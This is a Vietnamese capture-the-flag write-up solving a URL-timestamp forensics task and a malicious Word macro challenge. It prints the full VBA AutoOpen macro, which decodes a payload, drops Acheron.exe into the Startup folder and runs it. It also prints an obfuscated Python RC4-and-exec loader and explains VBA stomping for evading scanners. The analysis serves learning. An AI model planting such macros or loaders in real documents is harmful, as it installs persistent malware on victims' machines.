



# Archive challenge
> [https://drive.google.com/drive/folders/1mquKtuPDRcfcA7H1EpEi4K1fhUBFRk8E?usp=sharing](https://drive.google.com/drive/folders/1mquKtuPDRcfcA7H1EpEi4K1fhUBFRk8E?usp=sharing)
# Externet Inplorer
## Description 
> Bạn có thể tìm được timestamp của url này khi nó được search không?
URL: https://www.google.com/search?q=how+to+hack+facebook&sca_esv=566211836&source=hp&ei=FgsIZdOxIfaB2roP1r-QsA4&iflsig=AO6bgOgAAAAAZQgZJgCWK60cSQUhq1etDPOxGw-Hrq5j&ved=0ahUKEwjTlMPZ37OBAxX2gFYBHdYfBOYQ4dUDCAk&uact=5&oq=how+to+hack+facebook&gs_lp=Egdnd3Mtd2l6IhRob3cgdG8gaGFjayBmYWNlYm9vazIIEAAYgAQYxwMyCBAAGIAEGMcDMgUQABiABDIFEAAYgAQyCBAAGIAEGMcDMggQABiABBjHAzIIEAAYgAQYxwMyCBAAGIAEGMcDMggQABiABBjHAzIIEAAYgAQYxwNI-DdQ4QFYuDZwDngAkAEAmAGdAaABphuqAQUxMS4yMrgBA8gBAPgBAagCB8ICEBAAGAMYjwEY5QIY6gIYjAPCAhAQLhgDGI8BGOUCGOoCGIwDwgIREC4YgAQYsQMYgwEYxwEY0QPCAgsQLhiABBixAxiDAcICCxAAGIAEGLEDGIMBwgILEAAYigUYsQMYgwHCAggQABiABBixA8ICERAuGIoFGLEDGIMBGMcBGNEDwgIQEAAYgAQYsQMYgwEYsQMYCsICBRAuGIAEwgILEC4YgAQYxwEY0QPCAggQABiKBRiGA8ICBhAAGBYYHsICCBAAGIoFGLEDwgILEC4YigUYsQMYgwHCAgQQABgDwgIIEC4YgAQYsQPCAgoQABiABBhGGP8B&sclient=gws-wiz
- Flag format: KCSC{yyyy-mm-dd_hh:mm:ss.milisec}
- Author: Nex0
## Solution 
- Với bài này em tra google và tìm được trang này : [https://dfir.blog/unfurl/](https://dfir.blog/unfurl/) để phân tích đường dẫn url 
- 
> FLAG : KCSC{2023-09-18_08:32:22.547027}

# Jumper In Disguise
## Description 
> Lombeos, 1 người bạn của tôi nhận được 1 file được gửi nặc danh. Bằng linh tính của mình, anh ấy nghi ngờ file này là độc hại và quyết định gửi lại file cho bạn để phân tích. Liệu bạn có thể giúp anh ấy không?
- Flag format: KCSC{}
- Author: Nex0
## Solution 
- Sau khi tải và giải nén file chall.zip em thu được 1 file *.docm trong đó đuôi doc-m chỉ rằng file đang chứa macro, mở olevba lên và phân tích
<details>
<summary>
- Xem VBA tại đây 
</summary>

```
┌──(kali㉿kali)-[~/Downloads]
└─$ olevba ThongBao.docm         
olevba 0.60.1 on Python 2.7.18 - http://decalage.info/python/oletools
===============================================================================
FILE: ThongBao.docm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls 
in file: word/vbaProject.bin - OLE stream: u'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas 
in file: word/vbaProject.bin - OLE stream: u'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Function zzz(troll As String) As String
    Dim aaa As String
    Dim bbb As String
    Dim ccc As String
    Dim i As Integer
    aaa = ""
    For i = 1 To Len(troll) Step 2
        aaa = aaa & ChrW("&H" & Mid(troll, i, 2))
    Next i
    bbb = "1337"
    ccc = ""
    For i = 1 To Len(aaa)
        ccc = ccc & ChrW(AscW(Mid(aaa, i, 1)) Xor AscW(Mid(bbb, (i - 1) Mod Len(bbb) + 1, 1)))
    Next i
    
    zzz = ccc
End Function
Sub AutoOpen()
    MsgBox "YOU GOT BONKED"
    MsgBox "KCSC{Keep_findin_till_reveal_secret}"
    Dim troll As String
    Dim nifal As String
    troll = "7a4a5c4245565a1742525a435058461b11405b5844575c421140525c4440565911595a5c5a5c46161012"
    nifal = zzz(troll)


Dim luachua
Dim file_length As Long
Dim length As Long
file_length = FileLen(ActiveDocument.FullName)
luachua = FreeFile
Open (ActiveDocument.FullName) For Binary As #luachua
Dim lem() As Byte
ReDim lem(file_length)
Get #luachua, 1, lem
Dim eee As String
eee = StrConv(lem, vbUnicode)
Dim fff, rrr
Dim nbv
    Set nbv = CreateObject("vbscript.regexp")
    nbv.Pattern = "SUPERNOVAOVERLOAD"
    Set rrr = nbv.Execute(eee)
Dim idx

For Each fff In rrr
idx = fff.FirstIndex
Exit For
Next

En = Environ("appdata") & "\Microsoft\Windows\Start Menu\Programs\Startup"
Set fszzzzz = CreateObject("Scripting.FileSystemObject")
Dim wakuwaku() As Byte
Dim soj As Long
soj = 4296810
ReDim wakuwaku(soj)
Get #luachua, idx + 18, wakuwaku
Dim bruh
bruh = FreeFile
deced = wakuwaku

Dim mei() As Byte
mei = deced
bbb = "4444"
For i = 1 To (soj + 1)
    jdj = deced(i - 1) Xor AscW(Mid(bbb, (i - 1) Mod Len(bbb) + 1, 1))
    mei(i - 1) = jdj
    Next i

namae = En & "\" & "Acheron.exe"
Open (namae) For Binary As #bruh
Put #bruh, 1, mei

Close #bruh
Erase wakuwaku
Set ceo = CreateObject("WScript.Shell")
ceo.Run """" + namae + """" + nifal
ActiveDocument.Save
End Sub

```
</details>


- Phân tích thấy rằng code vba hiển thị 2 form     MsgBox "YOU GOT BONKED" và MsgBox "KCSC{Keep_findin_till_reveal_secret}", đồng thời sinh ra 1 file mang tên Acheron.exe trong \Microsoft\Windows\Start Menu\Programs\Startup

- Đọc lại vba với tuỳ chọn --show-pcode thì vấn đề đã xảy ra 
- 
- Biến bbb của chúng ta đã chuyển từ giá trị 4444 xuống 1337
- Để hiểu rõ hoạt động em tìm kiếm google theo từ khoá `pcode in olevba change` thì ra được [trang này](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/defense-evasion/t1564-hide-artifacts/vba-stomping)
- Theo đó `hacker sẽ thay thế các payload độc hại và thay thế bằng các đoạn mã an toàn để có thể vượt qua các công cụ quét vba`
- Tiếp theo em chạy nó trên máy ảo windows để lấy file Acheron.exe tại `C:\Users\*********\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`. Vì đây là máy ảo nên không công cụ, em ném qua linux để phân tích.
- Sau khi up lên virustotal xác định được file được gói lại bằng PyInstaller 
- 
- Để xem được code bên trong trước khi pack em dùng công cụ [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor)
```
┌──(kali㉿kali)-[~/Downloads/pyinstxtractor]
└─$ python pyinstxtractor.py ~/Downloads/Acheron.exe 
[+] Processing /home/kali/Downloads/Acheron.exe
[+] Pyinstaller version: 2.1+
[+] Python version: 3.7
[+] Length of package: 3976811 bytes
[+] Found 20 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: lmao.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.7 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: /home/kali/Downloads/Acheron.exe

You can now use a python decompiler on the pyc files within the extracted directory
                                                                                                                                                                       
┌──(kali㉿kali)-[~/Downloads/pyinstxtractor]
└─$ ls
Acheron.exe_extracted  LICENSE  pyinstxtractor.py  README.md
                                                                                                                                                                       
┌──(kali㉿kali)-[~/Downloads/pyinstxtractor]
└─$ cd Acheron.exe_extracted 
                                                                                                                                                                       
┌──(kali㉿kali)-[~/Downloads/pyinstxtractor/Acheron.exe_extracted]
└─$ ls 
base_library.zip  libcrypto-1_1.dll  _lzma.pyd                pyimod02_importers.pyc  python37.dll          select.pyd   struct.pyc
_bz2.pyd          libssl-1_1.dll     pyiboot01_bootstrap.pyc  pyimod03_ctypes.pyc     PYZ-00.pyz            _socket.pyd  unicodedata.pyd
_hashlib.pyd      lmao.pyc           pyimod01_archive.pyc     pyimod04_pywin32.pyc    PYZ-00.pyz_extracted  _ssl.pyd     VCRUNTIME140.dll
```
- Để đọc được code tại file lmao.pyc ta cần chuyển nó qua file py ở đây em dùng công cụ uncompyle6
```
"""nR9aRuepXAGTojNrgfy3ai8iY5vq86RrJVwkOPRl5ne9vqd2b38dWd650pxpK/OMwkl1qcOeY/Bf+GYqKR7UG/0stVv2AfMjCYyb9CGSnZHqeaXLEd/2rhrni1+oyqqKuuQbawVTNY7ZcFJqejDjyw+1i2TSCgTuj1N7RZb9paxVlWZ/xLxz8pxrfhdtStZPVflTB24X1yQ/mZNfYWepk2zblSmsnq6sPRGr+50EeB0E+1j1igDuVTv0Ym1cS45QNMymjP0hFY5DjvR0W0EraJdEoXR6dQvgBPKSwdJ0JI87iPkesR3M7I77mtKtmNv5ydm3eo5TYzmbnXL42rZnLrhmgmNFzXa3gDYxnYBtmzgLTB3PQ3qVnSPVI2mr1GD7hCLQDeHm1HFEwx3dPvBwKhLSWqQw7Crw37OTaJCYOCLDlPzE1GZc2sOITPq2xckalHsjzXJMZ83u4FPSW31LS4hvdLb1LNl6vOgEMkUgaGqtfVO7AHPMwHFY7wO+1ggzJubH1MlX3UAtqS8DtskzeeSrHaS1GNyr5Pp6cVbUJLqSREHrmqJ/pi/3637Fyjsj374laynjrsJA8txeUD5GoNVIgB82rftGPNE6JR46JnBx0o8koHkXuKySWrPGkPV/IS2tZIb0O9qinGRQWI/hxm5q1qPVloqtVn644DVaeM9K4NGCU6VS2YDhEMlADOht5T3U2KbfoQD9HPta5W82HfaKv2/yJs+UfVd9xKfTQ/k4q3ob9nVupqiwTNgPWgaHPS36LZtGL3lEQTLaNRX3BQVDGuFY4s3RZQk/Oq9MkD5ZUVQlEJCQDezT40pbvWJRn+2OaKZizb3fbnKM0ggUbDKEU1gsI2OPrdqq3W/8Zel5NwC/7fdhiL+2zuO58JamssKdTc7e8CcwKhVRBFGs6Q0uYCx+VKXgnO7dn+ojW6RiQGeDb6w4IufhEvJxH56fgWcO52ZnvhOYymHKtztJSWLDn5H6hyEvCS48UPFW3SrCqxOXVadzcl4OOJkOoRBQ09PRfJd1mN92rF0kH23AyRvJWjQXXJ78uxeNoaRDmK6zDPS1R0LR40J0dPwJGnZYEeWyPw=="""
import sys
from base64 import b64decode as d
S = [i for i in range(256)]
j = 0
out = []
for i in range(256):
    j = (j + S[i] + ord(sys.argv[1][i % len(sys.argv[1])])) % 256
    S[i], S[j] = S[j], S[i]

i = j = 0
for char in d(globals()["__doc__"]):
    i = (i + 1) % 256
    j = (j + S[i]) % 256
    S[i], S[j] = S[j], S[i]
    out.append(char ^ S[(S[i] + S[j]) % 256])

exec("".join([chr(out[i] ^ open(sys.argv[0], "rb").read(4)[i % 4]) for i in range(len(out))]))

```
- Nó sẽ chạy tệp này cùng với chuỗi nifal trong code vba 
- Em dùng chatgpt để xác định chuỗi là gì
```
def zzz(troll):
    aaa = ""
    for i in range(0, len(troll), 2):
        aaa += chr(int(troll[i:i+2], 16))
    
    bbb = "1337"
    ccc = ""
    for i in range(len(aaa)):
        ccc += chr(ord(aaa[i]) ^ ord(bbb[i % len(bbb)]))
    
    return ccc

troll = "7a4a5c4245565a1742525a435058461b11405b5844575c421140525c4440565911595a5c5a5c46161012"
nifal = zzz(troll)
print(nifal)
```
- Kết quả là : Kyoutei saitaku, shoudou sakusen jikkou!!!
- Phân tích file python 1 tí thấy rằng nó sẽ lấy chuỗi `nR9aRu.....` sau đó decrypt với key là `Kyoutei saitaku, shoudou sakusen jikkou!!!` và xor với 4 byte đầu của file .exe (này dùng hexditor em xác định được nó là 4D 5A 90 00)
- Em dùng cyberchef để decrypt 
- 
> Flag : KCSC{I_@m_daStomp_dat_1z_4Ppr0/\ch1n9!}

